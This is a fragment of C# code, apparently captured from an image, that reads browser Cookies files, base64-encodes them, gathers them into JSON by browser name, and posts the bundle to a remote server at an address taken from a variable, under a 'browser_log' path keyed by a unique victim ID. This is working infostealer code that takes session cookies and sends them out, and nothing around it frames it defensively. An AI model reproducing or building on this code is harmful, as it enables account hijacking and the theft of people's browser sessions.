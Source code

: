                     {

                        if (File.Exists(cookiesPath))

                        {

                            byte[] cookiesDataBytes = File.ReadAllBytes(cookiesPath);

                            string cookiesDataBase64 = Convert.ToBase64String(cookiesDataBytes);

                            cookiesArray.Add(cookiesDataBase64);

                        }

                    }

                    catch (Exception ex)

                    {

                        Console.WriteLine($"Failed to access Cookies file: {cookiesPath}. Error: {ex.Message}");

                        continue;

                    }

                }

                browserJson["cookies"] = cookiesArray;





                mainJson[browserName] = browserJson;

            }

            else

            {

                Console.WriteLine($"Local State file for browser {browserName} not found");

            }

        }





        await SendPostRequestAsync($"{Variables.ip}/browser_log/{Variables.uniqueId}", mainJson.ToString());

    }

    catch (Exception ex)

    {

        Console.WriteLine($"Error: {ex.Message}");

    }

    }

[/CODE]
